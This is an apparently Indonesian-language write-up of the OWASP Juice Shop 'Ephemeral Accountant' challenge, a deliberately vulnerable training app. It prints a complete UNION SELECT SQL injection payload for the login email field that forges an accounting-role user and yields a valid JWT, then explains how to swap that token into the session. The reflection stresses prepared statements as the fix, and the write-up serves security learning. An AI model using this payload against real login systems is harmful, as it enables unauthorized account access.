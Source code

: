 # Ephemeral Accountant

## Objective
Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

## Langkah Eksploitasi
1. Lakukan login menggunakan email dan password bebas, capture menggunakan burpsuite.
<img width="1440" height="900" alt="Screenshot 2025-09-09 at 22 11 52" src="https://github.com/user-attachments/assets/95bfe094-b993-4881-ac8b-2b7c5b034224" />
2. Ubah bagian email dan password dengan

```bash
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```
Payload tersebut berfungsi untuk menyuntikkan row user palsu bernama acc0unt4nt@juice-sh.op melalui UNION SELECT, sehingga aplikasi percaya akun tersebut ada dan mengeluarkan JWT token dengan role accounting tanpa benar-benar membuat user di database.

3. Setelah request dikirim, server merespons dengan JWT token valid. Ini membuktikan bahwa aplikasi menerima user palsu sebagai akun sah.
<img width="1440" height="900" alt="Screenshot 2025-09-09 at 22 12 59" src="https://github.com/user-attachments/assets/4aefed26-52ad-4491-8f1d-56c077549ed4" />
4. Untuk benar-benar masuk sebagai accountant, token harus diganti dengan token hasil injection. Ada 2 cara:

- Di Burp Suite – intercept request setelah login, ganti header Authorization: Bearer <token>.
<img width="1440" height="900" alt="Screenshot 2025-09-09 at 22 35 22" src="https://github.com/user-attachments/assets/44202703-d67f-4476-bb70-6461d89b071e" />

- Di Browser – buka DevTools > Application > Local Storage > token, lalu ganti dengan token hasil injection.
<img width="1440" height="900" alt="Screenshot 2025-09-09 at 23 10 49" src="https://github.com/user-attachments/assets/0cc65957-35e3-40bb-912c-f51246dc74d3" />

5. Setelah token diganti, refresh halaman → user berhasil login sebagai accountant.

## Catatan
- Hasil: Berhasil.
- Alasan: Payload SQL Injection berhasil membentuk record user palsu yang memenuhi struktur tabel Users. Aplikasi tidak melakukan validasi ekstra untuk mengecek apakah akun benar-benar ada di database, sehingga JWT token bisa dikeluarkan.
- Refleksi:
  - Awalnya cukup tricky karena harus memastikan jumlah dan urutan kolom di UNION SELECT sesuai dengan struktur tabel Users. Jika tidak sesuai, hasilnya gagal dengan error SQL.
  - Dengan pendekatan ini, user ephemeral hanya “ada” selama query berjalan — tidak disimpan permanen di database.
  - Dari sisi keamanan, kasus ini menunjukkan betapa pentingnya prepared statements dan validasi server-side sebelum mengeluarkan token authentication.


